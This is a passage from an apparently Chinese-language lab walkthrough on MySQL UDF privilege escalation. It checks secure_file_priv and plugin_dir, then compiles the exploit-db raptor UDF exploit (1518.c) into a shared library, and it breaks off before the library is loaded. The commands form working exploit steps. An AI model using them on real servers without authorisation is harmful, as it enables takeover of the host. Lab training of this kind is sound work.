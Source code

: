 查看`secure_file_priv`配置项，可以看到允许MySQL对系统内的所有目录做文件操作

- 指定目录：`secure_file_priv=/path/to/data`
- 不限目录：`secure_file_priv=`
- 禁止操作：`secure_file_priv=NULL`

```bash
mysql> show variables like "%secure%";
show variables like "%secure%";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)
```

再查看MySQL的插件目录的路径

```basg
mysql> show variables like "%plugin%";
show variables like "%plugin%";
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

**4. 信息总结**

1. 已知MySQL用户名和密码
2. `secure_file_priv`为空
3. `plugin_dir `路径是：`/usr/lib/mysql/plugin/ `

结合这些信息，我们可以做MySQL UDF 提权

**5. 获取UDF提权文件**

![image-20231104154104505](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20231104154104505.png)

**6. gcc 编译**

由于Linux使用的是so文件，所以这里需要对C文件做gcc编译

```bash
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# cp /usr/share/exploitdb/exploits/linux/local/1518.c ./
                                                         
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# gcc -g -c 1518.c
                                                                                             
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# gcc -g -shared -o  raptor_udf.so 1518.o -lc
                                                                                             
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c  1518.o  raptor_udf.so

┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# mv raptor_udf.so udf.so
```
